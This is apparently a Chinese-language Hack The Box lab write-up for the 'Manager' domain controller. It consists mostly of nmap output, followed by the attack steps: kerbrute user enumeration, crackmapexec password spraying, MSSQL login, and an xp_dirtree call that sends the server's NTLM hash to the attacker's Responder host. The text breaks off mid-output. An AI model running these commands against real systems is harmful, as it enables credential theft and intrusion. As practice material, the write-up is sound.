

HTB Manager


```
rustscan -a 10.10.11.236 -- -sV -A -sC  -v -oN manager
```


```
# Nmap 7.93 scan initiated Wed Jan 10 14:39:52 2024 as: nmap -vvv -p 53,80,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49674,49675,49673,49733,57721 -sV -A -sC -v -oN manager 10.10.11.236
Nmap scan report for 10.10.11.236
Host is up, received echo-reply ttl 127 (0.66s latency).
Scanned at 2024-01-10 14:39:53 CST for 147s

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-01-10 13:39:22Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
| -----BEGIN CERTIFICATE-----
| MIIGMDCCBRigAwIBAgITXwAAAAnyIQ82Fp4XhwAAAAAACTANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMB4XDTIzMDczMDEzNTEyOFoXDTI0
| MDcyOTEzNTEyOFowGzEZMBcGA1UEAxMQZGMwMS5tYW5hZ2VyLmh0YjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAK6FZPVxgTeMZrtGt8BkU233VTv/sRli
| qkDCEGRyikhD6pf0MUk6v9l09Gp6nq93/96cpaRR+/kvtWr/YwjrF33GWwQDzkU+
| VBVaOXkCxS4EfuFSEFSnzfkHXmhNHnKFBqZkIkLAxWGMIsfqNhWhOsEnegm8nwRX
| 34iT2Y+evoi/2n/JvH2j/aBRMrHBXCURX6sL9hbdEbcLgxSddmmau3Tfchl0x64I
| wUlGXx50v/WPIQ3o5knB7aYRL7slrZMy/5+d6Li4q87BE5GFg9f7qWSfusV7bdGD
| B0yLyyZ5sRivyTd6rnSISAxLiSs9b+9b6fLUrtKM4JDyarQ86z2j/VUCAwEAAaOC
| Az4wggM6MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTwYJKwYBBAGCNxkCBEIw
| QKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4Mjgx
| Ny0yNTY4MTI3MjA5LTEwMDAwPAYDVR0RBDUwM6AfBgkrBgEEAYI3GQGgEgQQOm30
| bCF+E0qwNjyE3ccVpoIQZGMwMS5tYW5hZ2VyLmh0YjAdBgNVHQ4EFgQUt2gOEWz4
| cWjj7uIqK6lyCs6KVp8wHwYDVR0jBBgwFoAUOsv0Ls2JyCQ2Zo85WAYOIr8wDkww
| gcoGA1UdHwSBwjCBvzCBvKCBuaCBtoaBs2xkYXA6Ly8vQ049bWFuYWdlci1EQzAx
| LUNBLENOPWRjMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENO
| PVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9bWFuYWdlcixEQz1odGI/Y2Vy
| dGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3Ry
| aWJ1dGlvblBvaW50MIHBBggrBgEFBQcBAQSBtDCBsTCBrgYIKwYBBQUHMAKGgaFs
| ZGFwOi8vL0NOPW1hbmFnZXItREMwMS1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5
| JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1tYW5h
| Z2VyLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQsFAAOCAQEACQf6JKTDh+L5K/Vz
| jmyEc8OlzzW4CUrAkJx2OJDoxSiELEMcdsswqBgQR5XtJIUa4iiPZjbepPgWzyZN
| qY5LiuuuLJdmF3GVr39Bc9/dn8LXqYX9npL5UkV0pFyiNcK5bgdRLMra3vXtjNsQ
| 9fos0a0dSM0Z+Pc40tJFLjQ1unn5kkU9uYA/np8z0q5V1GCP2Wqm0/6+OEaZHFQw
| 5j26ZQnOvmTaOmy+TI2Be3+PQNqUgnTODMgHr0IYuPWTy1U8nMR9NhWtdywa07A3
| 5U81h/XKD4e21fDdv4wge+LFubtqzOqOKWXlrOXcfdc7dBdRt+tD3bIcTO63AQFC
| A0xH1Q==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-01-10T13:41:31+00:00; +6h59m20s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-01-10T13:41:30+00:00; +6h59m20s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
| -----BEGIN CERTIFICATE-----
| MIIGMDCCBRigAwIBAgITXwAAAAnyIQ82Fp4XhwAAAAAACTANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMB4XDTIzMDczMDEzNTEyOFoXDTI0
| MDcyOTEzNTEyOFowGzEZMBcGA1UEAxMQZGMwMS5tYW5hZ2VyLmh0YjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAK6FZPVxgTeMZrtGt8BkU233VTv/sRli
| qkDCEGRyikhD6pf0MUk6v9l09Gp6nq93/96cpaRR+/kvtWr/YwjrF33GWwQDzkU+
| VBVaOXkCxS4EfuFSEFSnzfkHXmhNHnKFBqZkIkLAxWGMIsfqNhWhOsEnegm8nwRX
| 34iT2Y+evoi/2n/JvH2j/aBRMrHBXCURX6sL9hbdEbcLgxSddmmau3Tfchl0x64I
| wUlGXx50v/WPIQ3o5knB7aYRL7slrZMy/5+d6Li4q87BE5GFg9f7qWSfusV7bdGD
| B0yLyyZ5sRivyTd6rnSISAxLiSs9b+9b6fLUrtKM4JDyarQ86z2j/VUCAwEAAaOC
| Az4wggM6MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTwYJKwYBBAGCNxkCBEIw
| QKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4Mjgx
| Ny0yNTY4MTI3MjA5LTEwMDAwPAYDVR0RBDUwM6AfBgkrBgEEAYI3GQGgEgQQOm30
| bCF+E0qwNjyE3ccVpoIQZGMwMS5tYW5hZ2VyLmh0YjAdBgNVHQ4EFgQUt2gOEWz4
| cWjj7uIqK6lyCs6KVp8wHwYDVR0jBBgwFoAUOsv0Ls2JyCQ2Zo85WAYOIr8wDkww
| gcoGA1UdHwSBwjCBvzCBvKCBuaCBtoaBs2xkYXA6Ly8vQ049bWFuYWdlci1EQzAx
| LUNBLENOPWRjMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENO
| PVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9bWFuYWdlcixEQz1odGI/Y2Vy
| dGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3Ry
| aWJ1dGlvblBvaW50MIHBBggrBgEFBQcBAQSBtDCBsTCBrgYIKwYBBQUHMAKGgaFs
| ZGFwOi8vL0NOPW1hbmFnZXItREMwMS1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5
| JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1tYW5h
| Z2VyLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQsFAAOCAQEACQf6JKTDh+L5K/Vz
| jmyEc8OlzzW4CUrAkJx2OJDoxSiELEMcdsswqBgQR5XtJIUa4iiPZjbepPgWzyZN
| qY5LiuuuLJdmF3GVr39Bc9/dn8LXqYX9npL5UkV0pFyiNcK5bgdRLMra3vXtjNsQ
| 9fos0a0dSM0Z+Pc40tJFLjQ1unn5kkU9uYA/np8z0q5V1GCP2Wqm0/6+OEaZHFQw
| 5j26ZQnOvmTaOmy+TI2Be3+PQNqUgnTODMgHr0IYuPWTy1U8nMR9NhWtdywa07A3
| 5U81h/XKD4e21fDdv4wge+LFubtqzOqOKWXlrOXcfdc7dBdRt+tD3bIcTO63AQFC
| A0xH1Q==
|_-----END CERTIFICATE-----
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-01-10T13:41:32+00:00; +6h59m20s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-05T09:54:50
| Not valid after:  2054-01-05T09:54:50
| MD5:   ba08f66f89cc9b7ceda27627f4a05866
| SHA-1: ff3fa587332dad8350581444392e3bb1ec5debea
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQFWjMmWgxqblIbdBNZ95BYzANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwMTA1MDk1NDUwWhgPMjA1NDAxMDUwOTU0NTBaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBANc3kLMz
| zmSWiflCzRPDE2OUbhiwvVA93WsmGvXWAsuXXFJ6a7mMlHaozhQ3zQIUgogA/WQ1
| YWJnd2nKdeWABKEBt30hA8z+Km6qz9l8BuhPkjwZFJi+awyBetbyEgayTe7P6gzD
| EIMbiCFxw1Zvycmd5PsMPCYfCNIpXjYL8zWQX+f5rHTLwtkJOeBa+AkouLYDeAgl
| rezc1aJtrRt8Jo087SaQH7wahB+ifFQSjYvTIc7kO7XZdNJHE19FdBCWGSs2Bb7C
| ++abGrBLSHrkxHsJWOFvdmO0hxqboUmJmYcHcP7tye+ewBo/6x87pzQtbADyvcEC
| yOcvHtSbnBStAdkCAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAM7Aj3YpY1xOsRtwN
| DI9v4yaBA7QQ0kVDcRniIolWJE1QO8mJbXX4+Ev/9VPKHyl+2bO6/vpvL/uO18mH
| zFk1B7iC963EWUqDI/nd1Jy4L0NTg6PLkVW8ojf59l+colS0EsCIREI7YEOKH6oE
| +syTPXZPetgPnX1opLcqHOgVp+UFha4cwZWOD8DNQvAvobmMUJdqpi0t3Pi1xsfq
| Ye8nofpSAm6UEAjktZjMAbev6lNP9QaYxkdlV2IsaIhHpQeGVyj2sooNrt/dximS
| deOBmHZd9v1fJ8GQUMqJwjHxybeOGfp50xxjgbbailk8+CfMRisx8aw83K5wqqOE
| 7pb3Yw==
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
| -----BEGIN CERTIFICATE-----
| MIIGMDCCBRigAwIBAgITXwAAAAnyIQ82Fp4XhwAAAAAACTANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMB4XDTIzMDczMDEzNTEyOFoXDTI0
| MDcyOTEzNTEyOFowGzEZMBcGA1UEAxMQZGMwMS5tYW5hZ2VyLmh0YjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAK6FZPVxgTeMZrtGt8BkU233VTv/sRli
| qkDCEGRyikhD6pf0MUk6v9l09Gp6nq93/96cpaRR+/kvtWr/YwjrF33GWwQDzkU+
| VBVaOXkCxS4EfuFSEFSnzfkHXmhNHnKFBqZkIkLAxWGMIsfqNhWhOsEnegm8nwRX
| 34iT2Y+evoi/2n/JvH2j/aBRMrHBXCURX6sL9hbdEbcLgxSddmmau3Tfchl0x64I
| wUlGXx50v/WPIQ3o5knB7aYRL7slrZMy/5+d6Li4q87BE5GFg9f7qWSfusV7bdGD
| B0yLyyZ5sRivyTd6rnSISAxLiSs9b+9b6fLUrtKM4JDyarQ86z2j/VUCAwEAAaOC
| Az4wggM6MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTwYJKwYBBAGCNxkCBEIw
| QKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4Mjgx
| Ny0yNTY4MTI3MjA5LTEwMDAwPAYDVR0RBDUwM6AfBgkrBgEEAYI3GQGgEgQQOm30
| bCF+E0qwNjyE3ccVpoIQZGMwMS5tYW5hZ2VyLmh0YjAdBgNVHQ4EFgQUt2gOEWz4
| cWjj7uIqK6lyCs6KVp8wHwYDVR0jBBgwFoAUOsv0Ls2JyCQ2Zo85WAYOIr8wDkww
| gcoGA1UdHwSBwjCBvzCBvKCBuaCBtoaBs2xkYXA6Ly8vQ049bWFuYWdlci1EQzAx
| LUNBLENOPWRjMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENO
| PVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9bWFuYWdlcixEQz1odGI/Y2Vy
| dGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3Ry
| aWJ1dGlvblBvaW50MIHBBggrBgEFBQcBAQSBtDCBsTCBrgYIKwYBBQUHMAKGgaFs
| ZGFwOi8vL0NOPW1hbmFnZXItREMwMS1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5
| JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1tYW5h
| Z2VyLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQsFAAOCAQEACQf6JKTDh+L5K/Vz
| jmyEc8OlzzW4CUrAkJx2OJDoxSiELEMcdsswqBgQR5XtJIUa4iiPZjbepPgWzyZN
| qY5LiuuuLJdmF3GVr39Bc9/dn8LXqYX9npL5UkV0pFyiNcK5bgdRLMra3vXtjNsQ
| 9fos0a0dSM0Z+Pc40tJFLjQ1unn5kkU9uYA/np8z0q5V1GCP2Wqm0/6+OEaZHFQw
| 5j26ZQnOvmTaOmy+TI2Be3+PQNqUgnTODMgHr0IYuPWTy1U8nMR9NhWtdywa07A3
| 5U81h/XKD4e21fDdv4wge+LFubtqzOqOKWXlrOXcfdc7dBdRt+tD3bIcTO63AQFC
| A0xH1Q==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-01-10T13:41:31+00:00; +6h59m20s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
| -----BEGIN CERTIFICATE-----
| MIIGMDCCBRigAwIBAgITXwAAAAnyIQ82Fp4XhwAAAAAACTANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMB4XDTIzMDczMDEzNTEyOFoXDTI0
| MDcyOTEzNTEyOFowGzEZMBcGA1UEAxMQZGMwMS5tYW5hZ2VyLmh0YjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAK6FZPVxgTeMZrtGt8BkU233VTv/sRli
| qkDCEGRyikhD6pf0MUk6v9l09Gp6nq93/96cpaRR+/kvtWr/YwjrF33GWwQDzkU+
| VBVaOXkCxS4EfuFSEFSnzfkHXmhNHnKFBqZkIkLAxWGMIsfqNhWhOsEnegm8nwRX
| 34iT2Y+evoi/2n/JvH2j/aBRMrHBXCURX6sL9hbdEbcLgxSddmmau3Tfchl0x64I
| wUlGXx50v/WPIQ3o5knB7aYRL7slrZMy/5+d6Li4q87BE5GFg9f7qWSfusV7bdGD
| B0yLyyZ5sRivyTd6rnSISAxLiSs9b+9b6fLUrtKM4JDyarQ86z2j/VUCAwEAAaOC
| Az4wggM6MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTwYJKwYBBAGCNxkCBEIw
| QKA+BgorBgEEAYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4Mjgx
| Ny0yNTY4MTI3MjA5LTEwMDAwPAYDVR0RBDUwM6AfBgkrBgEEAYI3GQGgEgQQOm30
| bCF+E0qwNjyE3ccVpoIQZGMwMS5tYW5hZ2VyLmh0YjAdBgNVHQ4EFgQUt2gOEWz4
| cWjj7uIqK6lyCs6KVp8wHwYDVR0jBBgwFoAUOsv0Ls2JyCQ2Zo85WAYOIr8wDkww
| gcoGA1UdHwSBwjCBvzCBvKCBuaCBtoaBs2xkYXA6Ly8vQ049bWFuYWdlci1EQzAx
| LUNBLENOPWRjMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENO
| PVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9bWFuYWdlcixEQz1odGI/Y2Vy
| dGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3Ry
| aWJ1dGlvblBvaW50MIHBBggrBgEFBQcBAQSBtDCBsTCBrgYIKwYBBQUHMAKGgaFs
| ZGFwOi8vL0NOPW1hbmFnZXItREMwMS1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5
| JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1tYW5h
| Z2VyLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQsFAAOCAQEACQf6JKTDh+L5K/Vz
| jmyEc8OlzzW4CUrAkJx2OJDoxSiELEMcdsswqBgQR5XtJIUa4iiPZjbepPgWzyZN
| qY5LiuuuLJdmF3GVr39Bc9/dn8LXqYX9npL5UkV0pFyiNcK5bgdRLMra3vXtjNsQ
| 9fos0a0dSM0Z+Pc40tJFLjQ1unn5kkU9uYA/np8z0q5V1GCP2Wqm0/6+OEaZHFQw
| 5j26ZQnOvmTaOmy+TI2Be3+PQNqUgnTODMgHr0IYuPWTy1U8nMR9NhWtdywa07A3
| 5U81h/XKD4e21fDdv4wge+LFubtqzOqOKWXlrOXcfdc7dBdRt+tD3bIcTO63AQFC
| A0xH1Q==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-01-10T13:41:30+00:00; +6h59m19s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49733/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
57721/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=1/10%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=659E3C4C%P=x86_64-pc-linux-gnu)
SEQ(SP=108%GCD=1%ISR=10B%TI=I%II=I%SS=S%TS=U)
OPS(O1=M53ANW8NNS%O2=M53ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M53ANW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 61285/tcp): CLEAN (Timeout)
|   Check 2 (port 4401/tcp): CLEAN (Timeout)
|   Check 3 (port 12164/udp): CLEAN (Timeout)
|   Check 4 (port 63406/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m19s, deviation: 0s, median: 6h59m19s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-01-10T13:40:52
|_  start_date: N/A

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   722.92 ms 10.10.16.1
2   722.95 ms 10.10.11.236

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 10 14:42:20 2024 -- 1 IP address (1 host up) scanned in 148.08 seconds

```


这是一台域控服务器

```
 DNS:dc01.manager.htb
```

开启了smb服务（文件共享和网络打印）

```
445/tcp  open  microsoft-ds?
```

开启了ms-sql数据库

```
1433/tcp  open  ms-sql-s 
```

 使用kerbrute进行爆破域用户

```
kerbrute userenum -d manager.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.11.236
```


这里爆破的时间很长，下面是爆破出来的用户名

```
ryan
guest
cheng
raven
administrator
Ryan
Raven
operator
Guest
Administrator
Cheng
jinwoo
RYAN
RAVEN
GUEST
Operator
```


使用kerbrute爆破administrator用户，未爆破出来，因为administrator用户通常是未设置密码错误阀数，不推荐直接爆破，会有安全日志。


将用户名放入user.txt，使用crackmapexec进行爆破密码同用户名一样的。

```
crackmapexec smb manager.htb -u users.txt -p users.txt
```


爆破出operator用户名和密码一样


使用mssqlclient连接

```
impacket-mssqlclient  -windows-aut manager.htb/operator:operator@10.10.11.236 
```


检查是否有权限执行这些代码  

```
Use master;

EXEC sp_helprotect 'xp_dirtree';    \\显示当前目录的子目录

EXEC sp_helprotect 'xp_subdirs';    \\获取指定目录下的目录列表

EXEC sp_helprotect 'xp_fileexist';  \\判断文件是否存在
```


使用responder开启伪造服务器，当mssql访问时就会把凭证发过来，再通过破解hash登录mssql获得最高权限。

```
responder -I tun0 -i 10.10.16.24
```


使用xp_dirtreef访问伪造服务器

```
xp_dirtree "\\10.10.16.24\test"
```


得到hash，但是解解密失败，后面步骤就不截屏了


使用xp_dirtree查询windows默认web目录

```
xp_dirtree 'C:\inetpub\wwwroot',1 ,1 ;
```

```
SQL> xp_dirtree 'C:\inetpub\wwwroot',1 ,1 ;
subdirectory                                                                                                                                                                                                                                                            depth          file   

